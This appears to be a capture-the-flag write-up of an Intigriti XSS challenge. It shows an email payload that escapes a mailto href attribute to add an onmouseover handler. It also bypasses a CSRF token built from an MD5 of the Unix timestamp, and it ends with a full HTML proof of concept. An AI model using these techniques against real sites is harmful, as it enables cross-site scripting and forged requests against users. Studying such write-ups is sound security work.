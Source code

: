 
## Intigriti — XSS Challenge 

![Capture](https://user-images.githubusercontent.com/59454895/112804703-fff84980-9074-11eb-972e-85a85c837655.PNG)

## Let's start

The challenge website had an input field to enter notes where we could write what we want.
First of all i tried to fuzz in order to see how the challenge would react , the first thing i noticed was a csrf token and our notes in the post request,
i also noticed that if we send a special character to escape the html tag with any strange element it will be sanitized by the server . After a while i
found out that the notes went through htmlspecialchars() function, which should help to prevent xss on this field because it can convert elements like < or > into  HTML entities.

Fortunately during my test i also tried to put an email in the note field ,it  helped me to find a hidden feature (the mailto attribute did not appear with other types of inputs).

![Capture3](https://user-images.githubusercontent.com/59454895/112806481-18696380-9077-11eb-95b0-8221d5b8cc54.PNG)

I tought it was interesting bacause maybe we could escape since the email address appears inside the href attribute of the HTML tag.
I decided to read how "mailto" works from the rfc , and i found out there is a strange way to declare the email with this attribute:
``` "\\\"it's\ ugly\\\""@example.org; ``` .

 It was a very good find , because it could allow to inject javascript between ``` "\\\"it's\ ugly\\\" ```  and ``` "@example.org; ```
  
the final payload was :
``` "\\\"traffik\prova\\\"\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"@outlook.it  ```

The following payload breaks out of the attribute and adds an onmouseover event.
![Capture6](https://user-images.githubusercontent.com/59454895/112814874-063ff300-9080-11eb-9319-a2ce218340fb.PNG)


## CSRF Token bypass
The challenge had CSRF token(in this case hashed with MD5) built in. The page generates a token and stores it in a hidden form input.  That's a problem for our final POC because the server ensure that the form hasn’t been submitted by a malicious site thanks to this token , so we need to bypass it. 

First of all i tried to generate an empty csrf token and a csrf token of the same length as the original but nothing worked.
After a while i noticed that there was also a comment with a timestamp and it helped me a lot , because after a research i understood that the token was generated by taking the unix timestamp and hashandled it in md5 , that's not effective as a protection because is easy to predict .


![Capture5](https://user-images.githubusercontent.com/59454895/112812171-15717180-907d-11eb-91a2-a6b0f9df6459.PNG)

So in order to finish the challenge i made a POC where i could send my xss payload inside the notes parameter with the post request thanks to ``` XMLHttpReques ``` ,  to bypass the csrf token i just took the date with ``` Date.now() ``` function in js and hashandled all in md5.
Final POC:

```html
<html>
  <head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/core.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"></script>
  </head>
  <body>
    <button onclick="sendPayload()">Send Payload</button>
    <script>
        function sendPayload() {
          var url = "https://challenge-0321.intigriti.io/";
          var flag = "\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"
          var xss_payload = "\\\traffik\prova\\\" + flag + "@outlook.it "

          var d = Date.now().toString().substr(0,10);
          var csrf = CryptoJS.MD5(d).toString();
          var data = "csrf=" + csrf + "&notes=" + xss_payload;

          var request1 = new XMLHttpRequest();
          request1.open("GET",url);
          request1.withCredentials = true;

          request1.onreadystatechange = function () {
            var request2 = new XMLHttpRequest();
            request2.withCredentials = true;
            request2.open("POST", url);
            request2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            request2.send(data);
          }

          request1.send();
        }
    </script>
</body>
</html>
```
